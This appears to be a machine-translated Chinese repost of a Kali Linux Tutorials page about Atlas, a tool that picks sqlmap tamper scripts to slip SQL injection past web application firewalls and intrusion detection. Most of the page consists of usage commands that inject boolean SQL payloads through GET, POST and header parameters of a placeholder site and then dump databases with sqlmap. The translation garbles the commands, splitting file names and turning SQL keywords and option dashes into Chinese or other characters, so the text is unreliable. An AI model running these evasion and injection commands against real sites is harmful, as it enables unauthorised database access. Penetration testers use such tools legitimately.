


# 图集:快速 SQLMap 篡改提示 1.0 版

> 原文：<https://kalilinuxtutorials.com/atlas-2/>

Atlas 是一个开源工具，可以建议 sqlmap 篡改以绕过 WAF/IDS/IPS，该工具基于返回的状态代码。

**截图**

**安装**

**git 克隆 https://github . com/m4ll 0k/atlas . git atlas
$ CD atlas
$ python atlas . py # python 3+**

**用途**

**$ python atlas . py–URL http://site.com/index.php?id=Price_ASC–有效载荷="-1234 和 4321 = 4321–AAAA”-random-agent-v**

注入点(带 **%%inject%%** ):

*   **获取:**

**$ python atlas . py–URL http://site.com/index/id/%%10%%–有效载荷="-1234 和 4321 = 4321–AAAA”-random-agent-v**

*   **帖子:**

**$ python atlas . py–URL http://site.com/index/id/-m POST-D ' test = % % 10% % '–payload = "-1234 和 4321 = 4321–AAAA”-random-agent-v**

*   **标题:**

**$ python atlas . py–URL http://site.com/index/id/-H '用户代理:Mozilla/5.0% % inject % % '-H ' X-header:test '–有效负载="-1234 和 4321 = 4321–AAAA”-random-Agent-v**

*   **篡改串联:**

**$ python atlas . py–URL http://site.com/index/id/%%10%%–有效载荷="-1234 和 4321 = 4321–AAAA”-concat " equalto like，html encode”-random-agent-v**

*   **获取篡改列表:**

**python atlas . py-g**

**也可阅读-[Vault:秘密管理工具，加密即服务&特权访问管理](https://kalilinuxtutorials.com/vault/)**

**例子**

*   **运行 SQLMap:**

**$ python sqlmap . py-u 'http://site.com/index.php？id = Price _ ASC '–DBS–random-agent-v3**

Price_ASC ')和 8716=4837 和(' yajr'='yajr 被 WAF/IDS/IPS 屏蔽，现在尝试用 Atlas:

**$ python atlas . py–URL 'http://site.com/index.php？id = Price _ ASC '–payload = ' ')和 8716=4837 和(' yajr ' = ' yajr '–random-agent-v**

此时:

**$ python sqlmap . py-u 'http://site.com/index.php？id = Price _ ASC '–DBS–random-agent-v3–tamper = versified**

[**Download**](https://github.com/m4ll0k/Atlas)